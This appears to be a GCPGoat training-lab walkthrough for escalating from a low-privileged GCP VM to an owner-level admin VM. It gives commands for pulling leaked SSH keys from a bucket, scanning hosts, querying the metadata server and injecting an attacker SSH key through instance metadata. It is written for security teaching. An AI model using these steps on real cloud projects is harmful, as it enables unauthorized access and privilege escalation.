 In this Part 02 of the lab, we will use the credentials of a low-privileged virtual machine (VM) that we found in the dev bucket. We'll use these credentials to pivot and access higher-privileged compute instances via the low-privileged machine.


### Phase 1: Reconnaissance and Initial Access

#### 1. Explore the Compromised Development Bucket

First, list the contents of the development bucket that was compromised in the previous lab:

  

```bash

gsutil ls -r gs://<DEV_BUCKET_NAME>/

```

![Development bucket contents showing config.txt file](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-02.png)


Note the interesting file **config.txt** in the `.ssh` directory. This could contain sensitive information.


#### 2. Retrieve and Analyze Configuration Files

Access the config.txt file from the bucket:

```bash

gsutil cat gs://<DEV_BUCKET_NAME>/shared/files/.ssh/config.txt

# OR via direct HTTPS access

curl https://storage.googleapis.com/<DEV_BUCKET_NAME>/shared/files/.ssh/config.txt

```

![Config file showing IP addresses and user information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-03.png)

The file contains multiple IP addresses, usernames, and paths to SSH keys.

#### 3. Identify Active Hosts

Scan the IP addresses found in the config file to determine which hosts are accessible:

```bash

nmap <IP_ADDRESS> -Pn

```

![Nmap scan results showing open port 22](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-04.png)

One of the IP addresses will have port 22 (SSH) open. From the config file, we can identify this as the instance associated with user **justin**.


#### 4. Retrieve SSH Key

Download the SSH private key for justin:

```bash

wget https://storage.googleapis.com/<DEV_BUCKET_NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem  # Set appropriate permissions

```

![Downloaded SSH key with proper permissions](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-06.png)

### Phase 2: Initial VM Access and Reconnaissance

#### 5. Connect to the Low-Privileged VM

Use the SSH key to access the VM:

```bash

ssh -i justin.pem justin@<IP_ADDRESS>

```

![Successful SSH connection to the VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-07.png)

#### 6. Gather Project Information

Check the VM's service account and project information: 

```bash

gcloud config list

``` 

![gcloud config showing project and account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-08.png)


This VM is using the default compute service account, which typically has **Editor** level access but might be restricted by access scopes.

#### 7. Check Service Account Access Scopes

Examine the access scopes applied to the VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```
 

![Service account scopes showing compute and storage access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-09.png)

The VM has full access to compute services and read access to storage buckets.
 

### Phase 3: Discovery of High-Value Targets  

#### 8. Enumerate Compute Instances

List all compute instances in the project:
 

```bash

gcloud compute instances list

```
  

![List of compute instances showing admin-vm](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-10.png)  

We've identified another VM named **admin-vm**. Note the public IP address for this instance. 

### Phase 4: Privilege Escalation via Metadata Modification 

#### 9. Generate New SSH Key Pair

Create a new SSH key for accessing the admin VM:
 

```bash

ssh-keygen -t rsa -C "attacker" -f ./key -P ""

```
 

![SSH key generation output](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-11.png)

This creates a public key (key.pub) and private key (key) for a user named "attacker".

#### 10. Prepare Metadata Update File


Create a metadata file with the new SSH key:
 

```bash

NEWKEY="$(cat ./key.pub)"

echo "attacker:$NEWKEY" > ./meta.txt

cat ./meta.txt  # Verify the contents

```


![Content of meta.txt file showing SSH key](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-12.png)


#### 11. Update the Admin VM's Metadata


Add the SSH key to the admin VM's metadata:  

```bash

gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt

```  

![Adding metadata to the admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-13.png) 

If prompted, confirm the zone selection. 

#### 12. Verify Metadata Update

Confirm the metadata was successfully updated:
 

```bash

gcloud compute instances describe admin-vm --zone us-west1-c

```

![Instance description showing updated SSH keys](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-14.png)
 

The SSH key for user "attacker" should now be visible in the metadata.
 

### Phase 5: Accessing the High-Privileged VM  

#### 13. Connect to the Admin VM 

Use the newly created SSH key to access the admin VM:
 

```bash

ssh -i ./key attacker@<ADMIN_VM_IP>

```  

![Successfully connected to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-16.png)

You now have access to the admin VM. By default, users added through instance metadata have sudo privileges.  

#### 14. Examine Service Account Privileges 

Check the project and service account information:

```bash

gcloud config list

```

![Admin VM service account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-17.png)

The admin VM is using a service account named **admin-service-account**.

#### 15. Examine IAM Policies

Check the permissions assigned to this service account:

```bash

gcloud projects get-iam-policy <PROJECT_ID>

```


![IAM policy showing owner role](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-18.png)

The admin service account has the **owner** role on the project, which grants full administrative access.

#### 16. Verify API Access Scopes
 

Check the access scopes for the admin VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```

![Scopes showing cloud-platform access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-19.png)


The VM has the **cloud-platform** scope, which provides full API access to all Google Cloud services.

### Alternative Method for Admin VM Access

#### 17. Direct SSH from Developer VM

You can also use the gcloud command to directly SSH to the admin VM:


```bash

gcloud compute ssh admin-vm

```

![Direct SSH access to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-20.png)
